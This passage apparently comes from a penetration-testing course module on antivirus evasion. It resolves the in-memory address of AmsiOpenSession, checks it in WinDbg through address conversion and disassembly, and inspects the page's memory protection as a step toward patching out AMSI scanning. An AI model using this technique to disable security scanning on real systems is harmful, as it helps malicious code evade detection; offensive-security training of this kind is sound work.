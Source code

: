 ```
$funcAddr
140736475571392
```

> Listing 43 - Resolving the address of AmsiOpenSession

To verify this address, we'll open WinDbg, attach to the PowerShell\_ISE process and quickly translate the address to hexadecimal with the ? command, prepending the address with 0n:

```
0:001> ? 0n140736475571392
Evaluate expression: 140736475571392 = 00007fff`c3a224c0
```

> Listing 44 - Converting the address to hexadecimal

With the value converted, we can then unassemble the instructions at that address to check if it is correct:

```
0:001> u 7fff`c3a224c0
amsi!AmsiOpenSession:
00007fff`c3a224c0 4885d2          test    rdx,rdx
00007fff`c3a224c3 7446            je      amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224c5 4885c9          test    rcx,rcx
00007fff`c3a224c8 7441            je      amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224ca 8139414d5349    cmp     dword ptr [rcx],49534D41h
00007fff`c3a224d0 7539            jne     amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224d2 4883790800      cmp     qword ptr [rcx+8],0
00007fff`c3a224d7 7432            je      amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
```

> Listing 45 - Verifying AmsiOpenSession address in WinDbg

Clearly, we have located the address of _AmsiOpenSession_.

This solves our first challenge. Now we must consider memory protections.

In Windows, all memory is divided into 0x1000-byte _pages_.[3](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_318-3) A memory protection setting is applied to each page, describing the permissions of data on that page.

Normally, code pages are set to _PAGE\_EXECUTE\_READ_, or 0x20,[4](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_318-4) which means we can read and execute this code, but not write to it. This obviously presents a problem.

Let's verify this in WinDbg with !vprot,[5](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_318-5) which displays memory protection information for a given memory address:

```
0:001> !vprot 7FFFC3A224C0
BaseAddress:       00007fffc3a22000
AllocationBase:    00007fffc3a20000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        0000000000008000
State:             00001000  MEM_COMMIT
Protect:           00000020  PAGE_EXECUTE_READ
Type:              01000000  MEM_IMAGE
```

